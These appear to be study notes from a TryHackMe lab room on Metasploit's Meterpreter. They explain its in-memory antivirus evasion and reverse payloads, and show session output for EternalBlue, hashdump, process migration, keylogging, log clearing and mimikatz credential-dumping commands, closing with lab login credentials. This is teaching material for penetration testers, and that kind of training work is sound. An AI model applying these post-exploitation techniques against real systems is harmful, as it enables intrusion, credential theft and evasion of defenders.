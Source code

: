 #+TITLE: Metasploit: Meterpreter

* Introduction



Meterpreter is a Metasploit payload that supports the penetration testing process with many valuable components. Meterpreter will run on the target system and act as an agent within a command and control architecture. You will interact with the target operating system and files and use Meterpreter's specialized commands.


Meterpreter has many versions which will provide different functionalities based on the target system.


How does Meterpreter work?

Meterpreter runs on the target system but is not installed on it. It runs in memory and does not write itself to the disk on the target. This feature aims to avoid being detected during antivirus scans. By default, most antivirus software will scan new files on the disk (e.g. when you download a file from the internet) Meterpreter runs in memory (RAM - Random Access Memory) to avoid having a file that has to be written to the disk on the target system (e.g. meterpreter.exe). This way, Meterpreter will be seen as a process and not have a file on the target system.


Meterpreter also aims to avoid being detected by network-based IPS (Intrusion Prevention System) and IDS (Intrusion Detection System) solutions by using encrypted communication with the server where Metasploit runs (typically your attacking machine). If the target organization does not decrypt and inspect encrypted traffic (e.g. HTTPS) coming to and going out of the local network, IPS and IDS solutions will not be able to detect its activities.


While Meterpreter is recognized by major antivirus software, this feature provides some degree of stealth.


The example below shows a target Windows machine exploited using the MS17-010 vulnerability. You will see Meterpreter is running with a process ID (PID) of 1304; this PID will be different in your case. We have used the getpid command, which returns the process ID with which Meterpreter is running. The process ID (or process identifier) is used by operating systems to identify running processes. All processes running in Linux or Windows will have a unique ID number; this number is used to interact with the process when the need arises (e.g. if it needs to be stopped).


Getpid

           
meterpreter > getpid 
Current pid: 1304

        


If we list processes running on the target system using the ps command, we see PID 1304 is spoolsv.exe and not Meterpreter.exe, as one might expect.

The ps command

           
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 396   644   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\LogonUI.exe
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 428   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           
 548   540   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 596   540   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 604   588   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 644   588   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 692   596   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
 700   692   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  
 716   596   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe  1276  1304  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\cmd.exe
 1304  692   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1340  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    
 1388  548   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe

        


Even if we were to go a step further and look at DLLs (Dynamic-Link Libraries) used by the Meterpreter process (PID 1304 in this case), we still would not find anything jumping at us (e.g. no meterpreter.dll)

The Meterpreter process

           
C:\Windows\system32>tasklist /m /fi "pid eq 1304"
tasklist /m /fi "pid eq 1304"

Image Name                     PID Modules                                     
========================= ======== ============================================
spoolsv.exe                   1304 ntdll.dll, kernel32.dll, KERNELBASE.dll,    
                                   msvcrt.dll, sechost.dll, RPCRT4.dll,        
                                   USER32.dll, GDI32.dll, LPK.dll, USP10.dll,  
                                   POWRPROF.dll, SETUPAPI.dll, CFGMGR32.dll,   
                                   ADVAPI32.dll, OLEAUT32.dll, ole32.dll,      
                                   DEVOBJ.dll, DNSAPI.dll, WS2_32.dll,         
                                   NSI.dll, IMM32.DLL, MSCTF.dll,              
                                   CRYPTBASE.dll, slc.dll, RpcRtRemote.dll,    
                                   secur32.dll, SSPICLI.DLL, credssp.dll,      
                                   IPHLPAPI.DLL, WINNSI.DLL, mswsock.dll,      
                                   wshtcpip.dll, wship6.dll, rasadhlp.dll,     
                                   fwpuclnt.dll, CLBCatQ.DLL, umb.dll,         
                                   ATL.DLL, WINTRUST.dll, CRYPT32.dll,         
                                   MSASN1.dll, localspl.dll, SPOOLSS.DLL,      
                                   srvcli.dll, winspool.drv,                   
                                   PrintIsolationProxy.dll, FXSMON.DLL,        
                                   tcpmon.dll, snmpapi.dll, wsnmp32.dll,       
                                   msxml6.dll, SHLWAPI.dll, usbmon.dll,        
                                   wls0wndh.dll, WSDMon.dll, wsdapi.dll,       
                                   webservices.dll, FirewallAPI.dll,           
                                   VERSION.dll, FunDisc.dll, fdPnp.dll,        
                                   winprint.dll, USERENV.dll, profapi.dll,     
                                   GPAPI.dll, dsrole.dll, win32spl.dll,        
                                   inetpp.dll, DEVRTL.dll, SPINF.dll,          
                                   CRYPTSP.dll, rsaenh.dll, WINSTA.dll,        
                                   cscapi.dll, netutils.dll, WININET.dll,      
                                   urlmon.dll, iertutil.dll, WINHTTP.dll,      
                                   webio.dll, SHELL32.dll, MPR.dll,            
                                   NETAPI32.dll, wkscli.dll, PSAPI.DLL,        
                                   WINMM.dll, dhcpcsvc6.DLL, dhcpcsvc.DLL,     
                                   apphelp.dll, NLAapi.dll, napinsp.dll,       
                                   pnrpnsp.dll, winrnr.dll                     

C:\Windows\system32>

        


Techniques and tools that can be used to detect Meterpreter are beyond the scope of this room. This section aimed to show you how stealthy Meterpreter is running; remember, most antivirus software will detect it.


It is also worth noting that Meterpreter will establish an encrypted (TLS) communication channel with the attacker's system.

* Meterpreter Flavors



As discussed in the previous Metasploit rooms, linked below, Metasploit payloads can be initially divided into two categories; inline (also called single) and staged.

Introduction to Metasploit: https://www.tryhackme.com/jr/metasploitintro

Scanning and Exploitation with Metasploit: https://www.tryhackme.com/jr/metasploitexploitation


As you will remember, staged payloads are sent to the target in two steps. An initial part is installed (the stager) and requests the rest of the payload. This allows for a smaller initial payload size. The inline payloads are sent in a single step. Meterpreter payloads are also divided into stagged and inline versions. However, Meterpreter has a wide range of different versions you can choose from based on your target system. 


The easiest way to have an idea about available Meterpreter versions could be to list them using msfvenom, as seen below. 


We have used the msfvenom --list payloads command and grepped "meterpreter" payloads (adding | grep meterpreter to the command line), so the output only shows these. You can try this command on the AttackBox. 

Listing Meterpreter payloads

           
root@ip-10-10-186-44:~# msfvenom --list payloads | grep meterpreter
    android/meterpreter/reverse_http                    Run a meterpreter server in Android. Tunnel communication over HTTP
    android/meterpreter/reverse_https                   Run a meterpreter server in Android. Tunnel communication over HTTPS
    android/meterpreter/reverse_tcp                     Run a meterpreter server in Android. Connect back stager
    android/meterpreter_reverse_http                    Connect back to attacker and spawn a Meterpreter shell
    android/meterpreter_reverse_https                   Connect back to attacker and spawn a Meterpreter shell
    android/meterpreter_reverse_tcp                     Connect back to the attacker and spawn a Meterpreter shell
    apple_ios/aarch64/meterpreter_reverse_http          Run the Meterpreter / Mettle server payload (stageless)
    apple_ios/aarch64/meterpreter_reverse_https         Run the Meterpreter / Mettle server payload (stageless)
    apple_ios/aarch64/meterpreter_reverse_tcp           Run the Meterpreter / Mettle server payload (stageless)
    apple_ios/armle/meterpreter_reverse_http            Run the Meterpreter / Mettle server payload (stageless)
    apple_ios/armle/meterpreter_reverse_https           Run the Meterpreter / Mettle server payload (stageless)
    apple_ios/armle/meterpreter_reverse_tcp             Run the Meterpreter / Mettle server payload (stageless)
    java/meterpreter/bind_tcp                           Run a meterpreter server in Java. Listen for a connection
    java/meterpreter/reverse_http                       Run a meterpreter server in Java. Tunnel communication over HTTP
    java/meterpreter/reverse_https                      Run a meterpreter server in Java. Tunnel communication over HTTPS
    java/meterpreter/reverse_tcp                        Run a meterpreter server in Java. Connect back stager
    linux/aarch64/meterpreter/reverse_tcp               Inject the mettle server payload (staged). Connect back to the attacker
    linux/aarch64/meterpreter_reverse_http              Run the Meterpreter / Mettle server payload (stageless)
    linux/aarch64/meterpreter_reverse_https             Run the Meterpreter / Mettle server payload (stageless)
    linux/aarch64/meterpreter_reverse_tcp               Run the Meterpreter / Mettle server payload (stageless)
    linux/armbe/meterpreter_reverse_http                Run the Meterpreter / Mettle server payload (stageless)
    linux/armbe/meterpreter_reverse_https               Run the Meterpreter / Mettle server payload (stageless)
    linux/armbe/meterpreter_reverse_tcp                 Run the Meterpreter / Mettle server payload (stageless)
    linux/armle/meterpreter/bind_tcp                    Inject the mettle server payload (staged). Listen for a connection
    linux/armle/meterpreter/reverse_tcp                 Inject the mettle server payload (staged). Connect back to the attacker [...]

        


The list will show Meterpreter versions available for the following platforms;

   - Android
   - Apple iOS
   - Java
   - Linux
   - OSX
   - PHP
   - Python
   - Windows


Your decision on which version of Meterpreter to use will be mostly based on three factors;

   - The target operating system (Is the target operating system Linux or Windows? Is it a Mac device? Is it an Android phone? etc.)
   - Components available on the target system (Is Python installed? Is this a PHP website? etc.)
   - Network connection types you can have with the target system (Do they allow raw TCP connections? Can you only have an HTTPS reverse connection? Are IPv6 addresses not as closely monitored as IPv4 addresses? etc.) 


If you are not using Meterpreter as a standalone payload generated by Msfvenom, your choice may also be limited by the exploit. You will notice some exploits will have a default Meterpreter payload, as you can see in the example below with the ms17_010_eternalblue exploit. 

Default payload for MS17-010

           
msf6 > use exploit/windows/smb/ms17_010_eternalblue 
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >

        


You can also list other available payloads using the show payloads command with any module. 

Available payloads

           
msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads 

Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   generic/custom                                               manual  No     Custom Payload
   1   generic/shell_bind_tcp                                       manual  No     Generic Command Shell, Bind TCP Inline
   2   generic/shell_reverse_tcp                                    manual  No     Generic Command Shell, Reverse TCP Inline
   3   windows/x64/exec                                             manual  No     Windows x64 Execute Command
   4   windows/x64/loadlibrary                                      manual  No     Windows x64 LoadLibrary Path
   5   windows/x64/messagebox                                       manual  No     Windows MessageBox x64
   6   windows/x64/meterpreter/bind_ipv6_tcp                        manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager
   7   windows/x64/meterpreter/bind_ipv6_tcp_uuid                   manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager with UUID Support
   8   windows/x64/meterpreter/bind_named_pipe                      manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Bind Named Pipe Stager [...]

* Meterpreter Commands

Typing help on any Meterpreter session (shown by meterpreter> at the prompt) will list all available commands.

The Meterpreter help menu

           
meterpreter > help

Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background
    bgkill                    Kills a background meterpreter script
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as a background thread
    channel                   Displays information or control active channels
    close                     Closes a channel[...]

        


Every version of Meterpreter will have different command options, so running the help command is always a good idea. Commands are built-in tools available on Meterpreter. They will run on the target system without loading any additional script or executable files.


Meterpreter will provide you with three primary categories of tools;

   - Built-in commands
   - Meterpreter tools
   - Meterpreter scripting

If you run the help command, you will see Meterpreter commands are listed under different categories.

   - Core commands
   - File system commands
   - Networking commands
   - System commands
   - User interface commands
   - Webcam commands
   - Audio output commands
   - Elevate commands
   - Password database commands
   - Timestomp commands

Please note that the list above was taken from the output of the help command on the Windows version of Meterpreter (windows/x64/meterpreter/reverse_tcp). These will be different for other Meterpreter versions.

** Meterpreter commands
Core commands will be helpful to navigate and interact with the target system. Below are some of the most commonly used. Remember to check all available commands running the help command once a Meterpreter session has started.

*** Core commands

   - background: Backgrounds the current session
   - exit: Terminate the Meterpreter session
   - guid: Get the session GUID (Globally Unique Identifier)
   - help: Displays the help menu
   - info: Displays information about a Post module
   - irb: Opens an interactive Ruby shell on the current session
   - load: Loads one or more Meterpreter extensions
   - migrate: Allows you to migrate Meterpreter to another process
   - run: Executes a Meterpreter script or Post module
   - sessions: Quickly switch to another session

*** File system commands

   - cd: Will change directory
   - ls: Will list files in the current directory (dir will also work)
   - pwd: Prints the current working directory
   - edit: will allow you to edit a file
   - cat: Will show the contents of a file to the screen
   - rm: Will delete the specified file
   - search: Will search for files
   - upload: Will upload a file or directory
   - download: Will download a file or directory

*** Networking commands

   - arp: Displays the host ARP (Address Resolution Protocol) cache
   - ifconfig: Displays network interfaces available on the target system
   - netstat: Displays the network connections
   - portfwd: Forwards a local port to a remote service
   - route: Allows you to view and modify the routing table

*** System commands

   - clearev: Clears the event logs
   - execute: Executes a command
   - getpid: Shows the current process identifier
   - getuid: Shows the user that Meterpreter is running as
   - kill: Terminates a process
   - pkill: Terminates processes by name
   - ps: Lists running processes
   - reboot: Reboots the remote computer
   - shell: Drops into a system command shell
   - shutdown: Shuts down the remote computer
   - sysinfo: Gets information about the remote system, such as OS

*** Others Commands (these will be listed under different menu categories in the help menu)

   - idletime: Returns the number of seconds the remote user has been idle
   - keyscan_dump: Dumps the keystroke buffer
   - keyscan_start: Starts capturing keystrokes
   - keyscan_stop: Stops capturing keystrokes
   - screenshare: Allows you to watch the remote user's desktop in real time
   - screenshot: Grabs a screenshot of the interactive desktop
   - record_mic: Records audio from the default microphone for X seconds
   - webcam_chat: Starts a video chat
   - webcam_list: Lists webcams
   - webcam_snap: Takes a snapshot from the specified webcam
   - webcam_stream: Plays a video stream from the specified webcam
   - getsystem: Attempts to elevate your privilege to that of local system
   - hashdump: Dumps the contents of the SAM database

Although all these commands may seem available under the help menu, they may not all work. For example, the target system might not have a webcam, or it can be running on a virtual machine without a proper desktop environment.

* Post-Exploitation with Meterpreter

Meterpreter provides you with many useful commands that facilitate the post-exploitation phase. Below are a few examples you will often use.

** Help
This command will give you a list of all available commands in Meterpreter. As we have seen earlier, Meterpreter has many versions, and each version may have different options available. Typing help once you have a Meterpreter session will help you quickly browse through available commands.

The Meterpreter help menu

           
meterpreter > help

Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background
    bgkill                    Kills a background meterpreter script
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as a background thread
    channel                   Displays information or control active channels
    close                     Closes a channel[...]

        

** Meterpreter commands
The getuid command will display the user with which Meterpreter is currently running. This will give you an idea of your possible privilege level on the target system (e.g. Are you an admin level user like NT AUTHORITY\SYSTEM or a regular user?)

The getuid command

           
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >

        


The ps command will list running processes. The PID column will also give you the PID information you will need to migrate Meterpreter to another process.

The ps command

           
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 396   644   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\LogonUI.exe
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 428   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           
 548   540   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 596   540   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 604   588   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 644   588   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 692   596   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
 700   692   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  
 716   596   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe
 724   596   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
 764   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           
 828   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           
 864   828   WmiPrvSE.exe                                                       
 900   692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  
 952   692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    
 1076  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    
 1164  548   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
 1168  692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  
 1244  548   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
 1276  1304  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\cmd.exe
 1304  692   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1340  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    
 1388  548   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe[...]

        

** Migrate
Migrating to another process will help Meterpreter interact with it. For example, if you see a word processor running on the target (e.g. word.exe, notepad.exe, etc.), you can migrate to it and start capturing keystrokes sent by the user to this process. Some Meterpreter versions will offer you the keyscan_start, keyscan_stop, and keyscan_dump command options to make Meterpreter act like a keylogger. Migrating to another process may also help you to have a more stable Meterpreter session.

To migrate to any process, you need to type the migrate command followed by the PID of the desired target process. The example below shows Meterpreter migrating to process ID 716.
The migrate command

           
meterpreter > migrate 716
[*] Migrating from 1304 to 716...
[*] Migration completed successfully.
meterpreter >

        


Be careful; you may lose your user privileges if you migrate from a higher privileged (e.g. SYSTEM) user to a process started by a lower privileged user (e.g. webserver). You may not be able to gain them back.

** Hashdump

The hashdump command will list the content of the SAM database. The SAM (Security Account Manager) database stores user's passwords on Windows systems. These passwords are stored in the NTLM (New Technology LAN Manager) format.
The hashdump command

           
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
meterpreter >

        


While it is not mathematically possible to "crack" these hashes, you may still discover the cleartext password using online NTLM databases or a rainbow table attack. These hashes can also be used in Pass-the-Hash attacks to authenticate to other systems that these users can access the same network.

** Search

The search command is useful to locate files with potentially juicy information. In a CTF context, this can be used to quickly find a flag or proof file, while in actual penetration testing engagements, you may need to search for user-generated files or configuration files that may contain password or account information.
The search command

           
meterpreter > search -f flag2.txt
Found 1 result...
    c:\Windows\System32\config\flag2.txt (34 bytes)
meterpreter >

** Shell

The shell command will launch a regular command-line shell on the target system. Pressing CTRL+Z will help you go back to the Meterpreter shell.
The shell command

           
meterpreter > shell
Process 2124 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>

* Post-Exploitation Challenge

Meterpreter provides several important post-exploitation tools.

Commands mentioned previously, such as getsystem and hashdump will provide important leverage and information for privilege escalation and lateral movement. Meterpreter is also a good base you can use to run post-exploitation modules available on the Metasploit framework. Finally, you can also use the load command to leverage additional tools such as Kiwi or even the whole Python language.
Loading Python

           
meterpreter > load python
Loading extension python...Success.
meterpreter > python_execute "print 'TryHackMe Rocks!'"
[+] Content written to stdout:
TryHackMe Rocks!

meterpreter >

        


The post-exploitation phase will have several goals; Meterpreter has functions that can assist all of them.

   - Gathering further information about the target system.
   - Looking for interesting files, user credentials, additional network interfaces, and generally interesting information on the target system.
   - Privilege escalation.
   - Lateral movement.

Once any additional tool is loaded using the load command, you will see new options on the help menu. The example below shows commands added for the Kiwi module (using the load kiwi command).
Loading Kiwi

           
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.

        

These will change according to the loaded menu, so running the help command after loading a module is always a good idea.

The updated help menu

           
Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
    creds_kerberos         Retrieve Kerberos creds (parsed)
    creds_msv              Retrieve LM/NTLM creds (parsed)
    creds_ssp              Retrieve SSP creds
    creds_tspkg            Retrieve TsPkg creds (parsed)
    creds_wdigest          Retrieve WDigest creds (parsed)
    dcsync                 Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticket_create   Create a golden kerberos ticket
    kerberos_ticket_list   List all kerberos tickets (unparsed)
    kerberos_ticket_purge  Purge any in-use kerberos tickets
    kerberos_ticket_use    Use a kerberos ticket
    kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
    lsa_dump_sam           Dump LSA SAM (unparsed)
    lsa_dump_secrets       Dump LSA secrets (unparsed)
    password_change        Change the password/hash of a user
    wifi_list              List wifi profiles/creds for the current user
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)

        


The questions below will help you have a better understanding of how Meterpreter can be used in post-exploitation.

You can use the credentials below to simulate an initial compromise over SMB (Server Message Block) (using exploit/windows/smb/psexec)

Username: ballen

Password: Password1
